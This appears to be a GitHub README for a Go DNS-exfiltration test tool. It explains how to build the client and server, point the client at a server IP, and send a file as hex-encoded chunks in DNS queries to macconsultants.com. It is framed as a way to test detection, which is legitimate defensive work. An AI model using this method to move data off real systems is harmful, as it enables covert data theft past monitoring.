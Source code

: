 # DNS Exfil Test Tool

This is a very basic file exfiltration tool that uses DNS A and AAAA records to exfiltrate files. This is a simple tool to easily test for detections for file exfiltration via DNS. The client sends the specified file as both A and AAAA requests, and currently the server responds just to A record requests with a bogus IP response. If Bro (Zeek) is being used, this tool should flag for anomalous dns traffic.

----------------------

To Use: **Server Side**
1. > cd dns-exfil-test/server 
2. > sed -i -e 's|10.10.10.10|[YOUR_IP]|g' go-dnsserver.go
3. > go mod init dns-exfil-text/server
4. > go get github.com/miekg/dns
5. > go build
6. > ./server

To Use: **Client Side**
1. > cd dns-exfil-test/client 
2. > sed -i -e 's|127.0.0.1|[SERVER_IP]|g' go-dnsclient.go
3. > go mod init dns-exfil-text/client
4. > go get github.com/miekg/dns
5. > go build
6. > ./client [file_to_send]


- the client will then read the contents of the file, hex encode it, and send it in 10 character chunks as A record requests. The format of each request is:
[10 hex encoded characters].macconsultants.com

- Once done the server will take all of the hex encoded data, combine, and unhexlify it to a file as ASCII in the same directory. The output file is called outfile.

- The server will not indicate when done but the client does. Once the client says it is done, you can kill the server and view the contents of outfile.

- You will need to rename the outfile if you want to send multiple files.

----------------------

***Example Execution:***

**Client**

![Image](client.png)

**Server**

![Image](server.png)


